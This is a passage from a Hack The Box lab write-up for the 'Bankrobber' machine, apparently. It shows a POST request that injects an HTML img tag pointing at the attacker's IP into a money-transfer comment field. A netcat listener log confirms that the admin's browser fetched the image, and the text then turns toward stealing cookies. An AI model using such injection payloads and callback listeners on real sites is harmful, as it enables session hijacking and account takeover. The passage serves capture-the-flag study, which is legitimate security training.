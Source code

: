 ```http
POST /user/transfer.php HTTP/1.1

fromId=10&toId=1&amount=1&comment=<img src=http://10.10.14.16/Image.jpeg />
```

```bash
luc@kali:~/HTB/Bankrobber$ sudo nc -lnvp 80
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.10.154.
Ncat: Connection from 10.10.10.154:52419.
GET /Image.jpeg HTTP/1.1
Referer: http://localhost/admin/index.php
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: nl-NL,en,*
Host: 10.10.14.16
```

We've confirmed that our HTML `<img>` tag is placed on the admin page and that the admin machine can connect to our machine on port 80.

The next step is checking to see how the cookies are saved in the browser.

![Cookies in browser](/assets/images/HTB-Bankrobber/1.d%20Cookies%20in%20browser.png)
